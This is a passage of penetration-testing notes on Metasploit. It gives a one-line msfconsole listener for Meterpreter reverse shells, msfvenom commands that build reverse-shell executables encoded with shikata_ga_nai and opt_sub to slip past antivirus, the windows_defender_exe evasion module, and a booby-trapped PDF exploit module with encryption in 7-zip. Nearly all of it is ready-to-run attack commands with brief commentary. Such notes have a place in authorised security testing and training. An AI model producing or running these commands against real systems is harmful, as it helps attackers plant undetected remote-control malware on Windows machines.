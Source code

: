 Once we have generated a payload, we need to set up a listener that would accept reverse connections.
- **One linear example**
```bash
msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/
meterpreter/reverse_tcp; set LHOST <IP>; set LPORT
<PORT>; run; exit -y"
```
# Antivirus Evasion and Anti-Forensics
## Using encoders
### shikata_ga_nai encoder
This is not the best way to evade a modern AV because it's easilty detected even after multiple encoding iterations. 
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -e x86/shikata_ga_nai -i 5 -f exe -O ./reverse.exe

# -i ,iterations
```
### opt_sub encoder
This is slightly better than shikata_ga_nai but overall not the best option for a real-life engagement.
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -e x86/opt_sub -i 5 -f exe -O ./reverse.exe
```
## Using the new evasion modules
This module evades the Windows Defender antivirus. This is achieved using various techniques, such as metasm, anti-emulation, shellcode encryption, and source code obfuscation.
### windows_defender_exe
```bash
use evasion/windows/windows_defender_exe
```
Further reading ->  https://blog.rapid7.com/2018/05/03/hiding-metasploit-shellcode-to-evade-windows-defender/ 
>There are more evasion modules that can be found by typing `search eavsion` in msfconsole.

## Using packagers and encrypters
### Using 7-zip utility
Create a pdf payload with the following module for demonstration
```bash
use exploit/windows/fileformat/adobe_utilprintf
```
Then use 7-zip utility to encrypt the pdf.

![[7zip.png]]
